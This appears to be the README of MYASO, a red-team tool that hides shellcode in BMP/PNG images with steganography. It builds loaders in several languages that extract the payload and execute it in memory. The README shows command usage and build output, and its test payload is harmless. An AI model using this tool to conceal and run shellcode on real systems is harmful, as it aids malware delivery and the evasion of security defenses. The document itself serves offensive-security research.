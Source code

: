 # MYASO

```
$ myaso embed -a LSB -i .\cat.bmp -o .\samples\shellcode\sc64.bmp -s .\sc_x64.bin --def .\go.yaml
88888b.d88b.  888  888  8888b.  .d8888b   .d88b.           
888 "888 "88b 888  888     "88b 88K      d88""88b          
888  888  888 888  888 .d888888 "Y8888b. 888  888          
888  888  888 Y88b 888 888  888      X88 Y88..88P          
888  888  888  "Y88888 "Y888888  88888P'  "Y88P"           
                   888                                     
by @adeadfed  Y8b d88P 
   @harpsiford "Y88P"       

[*] Payload size: 2208 bits (save this number!)
🥩 Saved the stego to .\samples\shellcode\sc64.bmp
[+] Builder configured
[*] Configuration: gorunner64_no_symbols (windows/x64/go/shellcode, algorithm=LSB, params={'MAX_BITS': 2208})
[*] Starting the build...
[+] Build was successful!
🥩 Runner is at readers\go\gorunner64_no_symbols.exe
[*] Usage: gorunner64_no_symbols.exe 2208 sc64.bmp

❯ py main.py embed -a LSB-X,G -i .\samples\cat.bmp -o .\samples\shellcode\sc_lsbx_green.bmp -s .\samples\shellcode\test_lsbx.txt --verbose --no-banner
[*] Reading shellcode from file...
[*] Shellcode: b'123456\r\n'
[*] Payload size: 64 bits (save this number!)
[*] Algorithm: LSB-X
[*] Source image: .\samples\cat.bmp
[*] LSB-X args: ('G',) 1
� Saved the stego to .\samples\shellcode\sc_lsbx_green.bmp

❯ py main.py read -a LSB-X,G -i .\samples\shellcode\sc_lsbx_green.bmp --verbose --max-bits 64 --no-banner
[*] Source image: .\samples\shellcode\sc_lsbx_green.bmp
[*] Algorithm: LSB-X
[*] Algorithm: LSB-X,G, extracting up to 64 bits
[*] LSB-X args: ('G',) 1
[+] Message: b'123456\r\n'

❯ py main.py read  -a LSB-X,G,64               -i samples/shellcode/sc_lsbx_green.bmp   --verbose --no-banner
❯ py main.py embed -a LSB-X,samples/cat.bmp,G  -o /samples/shellcode/sc_lsbx_green.bmp  --verbose --no-banner

```

A steganographic shellcode obfuscator. The executor reads data from a BMP image and executes it using VirtualAlloc/HeapAlloc. 

Has modules in the following languages:
- [x] C/C++
- [x] C#
- [x] Powershell
- [x] Go
- [x] Microsoft VBA (beta)

Available algorithms:
- [x] LSB (generic)
- [x] LSB-X (channel X only)
- [x] LSBM
- [x] ColorCode

Supported image formats:
- [x] BMP
- [x] PNG
- [ ] JPEG (TBD)

## Usage

### Generate image
```sh
myaso embed -f sc.bin -i image.bmp -o evil_image.bmp [-a <algorithm>]
```

### Execute shellcode
```cmd
c:\> reader.exe SC_BITS happy_cat.bmp
```

## Is it any good?
[yes.](https://news.ycombinator.com/item?id=3067434)

## Definition of Ready
- [x] parsing/embedding is abstract enough
- [x] console args
- [x] colored output
- [ ] write tests (at least for the Python part)
- [ ] proper error handling (in progress)
- [ ] interactive mode for embedding / generating
- [x] steak ascii art
- [x] algorithm args (`myaso -a ALGO,arg1,arg2`)
- [ ] minify PS output after build
- [ ] templating (all langs)
- [ ] test all build variants manually (oh god)
